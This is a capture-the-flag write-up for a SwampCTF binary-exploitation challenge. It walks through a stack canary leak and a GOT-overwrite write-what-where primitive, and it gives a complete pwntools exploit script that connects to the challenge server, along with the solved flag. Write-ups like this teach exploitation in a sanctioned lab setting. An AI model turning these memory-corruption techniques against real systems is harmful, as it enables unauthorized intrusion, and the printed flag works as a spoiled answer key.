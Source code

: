 https://ctftime.org/event/2573

# Oh my buffer (pwn)

I may have messed up my I/O calls, but it doesn't matter if everything sensitive has been erased, right?

nc chals.swampctf.com 40005

## Analysis

```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

`main` @ `0x4013c3`:

- Writes the flag to `/dev/null`
- Calls `fork`
- The `fork` child implements a menu that can call either `reg` or `login`

`reg` @ `0x401256`:

- Calls `read(STDIN_FILENO, local_28, 0x0a)`
- Calls `read(STDIN_FILENO, local_28, 0x2a)`
    - Note this can write over the canary and can control up to 2 bytes of the return address on the stack

`login` @ `004012fb`:

- Calls `scanf(stdin, "%d", local_2c)`
- Calls `read(STDIN_FILENO, local_28, 0x10)`
- Calls `write(STDOUT_FILENO, local_28, local_2c)`
    - This lets us control the the length of the write somewhat via the call to `scanf`

Note: `reg` and `login` share the same virtual memory for their stack frames and so the longer `read` in `reg` can be written to `STDOUT_FILENO` via the `write` in `login` even though the `read` in `login` is much shorter.

### Leaking the Canary

By exploiting the fact that `reg` and `login` share virtual memory for their stack frames we can do a long write in `reg` followed by a long read in `login` that ends with the stack canary's value as follows:

```python
def canary():
    register(b"A" * 0x18) 
    leak = login(b"A" * 0x10, 0x20)
    return u64(leak[-8:])
```

### Building a Write What Where

The approach that I chose to take, which I don't think was the intended one based on the flag, is manipulate entries in the `.got`.

We can see from the following diassembly that the value of `rbp` directly controls the value of `rsi` and that we only have to write a value that is 0x20 larger than the value we intended to be in `rsi`:

```asm
004012b5 48 8d 45 e0     LEA        RAX=>buffer,[RBP + -0x20]
004012b9 ba 2a 00        MOV        EDX,0x2a
         00 00
004012be 48 89 c6        MOV        RSI,RAX
004012c1 bf 00 00        MOV        EDI,0x0
         00 00
004012c6 e8 15 fe        CALL       <EXTERNAL>::read
         ff ff
```

Note that we can only 2 bytes of address we intended to return to, i.e. `0x4012b5 & 0xffff`, because our payload must be no greater than 0x2a bytes.

Finally we must then send to `STDIN_FILENO` what we want to write:

```python
READ_WRITE = 0x004012b5

def write_what_where(what, where):
    payload = b"A" * 0x18
    payload += p64(canary())
    payload += p64(where + 0x20) # rbp
    payload += p16(READ_WRITE & 0xffff)
    register(payload)
    p.send(what)
```

Note that when we attempt to return from `reg` after jumping to `0x004012b5` we won't have a proper stack frame nor a stack canary and so a call to `__stack_chk_fail` will occur. This means that in order for our `write_what_where` to be usable our first write to should be to the `.got` entry for `__stack_chk_fail` with the value of `main`.

Now we have everything we need to perform arbitrary writes.

## Solution

1) Leak the stack canary by doing a 0x18 byte write in `register` and then a 0x20 byte read in `login`
2) Write the address of `main` to the `.got` entry for `__stack_chk_fail`
    - This turns calls to `__stack_chk_fail` into a ret2main
3) Write the address of a `ret` instruction to the got entry for `dup2`
    - This prevents the call to `dup2` from doing anything and therefore allows the flag to be written to `stdout` rather than `/dev/null` when we ret2main

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./binary", checksec=False)
context.binary = elf
context.terminal = ["tmux", "splitw", "-h"]

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chals.swampctf.com", 40005)

def register(buf):
    p.sendlineafter(b"3) Exit\n", str(1).encode())
    assert(len(buf) <= 0x2a)
    p.sendafter(b"Username: ", buf)
    p.sendafter(b"Password: ", buf)
    p.readuntil(b"open right now!\n")

def login(buf, length):
    p.sendlineafter(b"3) Exit\n", str(2).encode())
    p.sendlineafter(b"How long is your username: ", str(length).encode())
    assert(len(buf) <= 0x10)
    p.sendafter(b"Username: ", buf)
    p.readuntil(b"find the user: ")
    return p.recv(length)

def canary():
    register(b"A" * 0x18) 
    leak = login(b"A" * 0x10, 0x20)
    return u64(leak[-8:])

READ_WRITE = 0x004012b5

def write_what_where(what, where):
    payload = b"A" * 0x18
    payload += p64(canary())
    payload += p64(where + 0x20) # rbp
    payload += p16(READ_WRITE & 0xffff)
    register(payload)
    p.send(what)

RET_GADGET = 0x00401648

# use __stack_chk_fail to ret2main
write_what_where(what=p64(elf.sym["main"]), where=elf.got["__stack_chk_fail"])

# turn calls to dup2 into a nop
write_what_where(what=p64(RET_GADGET), where=elf.got["dup2"])

p.readuntil(b"swampCTF{")
print("swampCTF{" + p.readuntil(b"}").decode()) # swampCTF{fUn_w1tH_f0rk5_aN6_fd5}
```

## Flag
`swampCTF{fUn_w1tH_f0rk5_aN6_fd5}`

smiley 2025/03/29
